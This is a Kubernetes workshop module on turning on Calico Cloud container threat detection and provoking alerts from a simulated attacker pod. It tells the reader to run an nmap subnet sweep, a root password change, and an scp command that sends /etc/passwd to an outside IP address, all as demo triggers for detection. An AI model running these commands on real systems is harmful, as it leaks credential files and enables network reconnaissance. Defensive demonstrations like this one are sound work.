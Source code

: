 # Module 4 - Zero-Day Attacks Detection with Threat Defence

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behaviour and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defence evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defense` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`.

2. If it is not enabled, you will see a page like this:

   ![enable](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/54014c62-cbef-4718-93fa-75390febb88a)

   Click on the Enable Container Threat Detection button, and you will see the following page:

   ![running](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/42906ad6-ced1-40a8-b817-4a4b5c740d08)

   Perfect! Now any suspicious activities will generate an alert. Let's try some.

   In other to see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

3. Execute the following commands from the attacker pod (if you did quit from its shell, it got deleted. Create it again if it's the case.).

   ```bash
   apk update
   apk add nmap
   nmap -sn $(hostname -i)/24
   ```
   
   Wait a minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events`.

   Optionally, you can also try the following;
   
   ```bash
   passwd root
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```
   Wait another minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events` again.

   You should be able to see the following security events:

   

--- 

[:arrow_right: Module 5 - Quarantine Infected Workloads and Visualize KSPM](/mod/module-5-quarantine-kspm.md)  <br>

[:arrow_left: Module 3 - Configuring IDS protection and Workload-Centric WAF](/mod/module-3-ids-waf.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
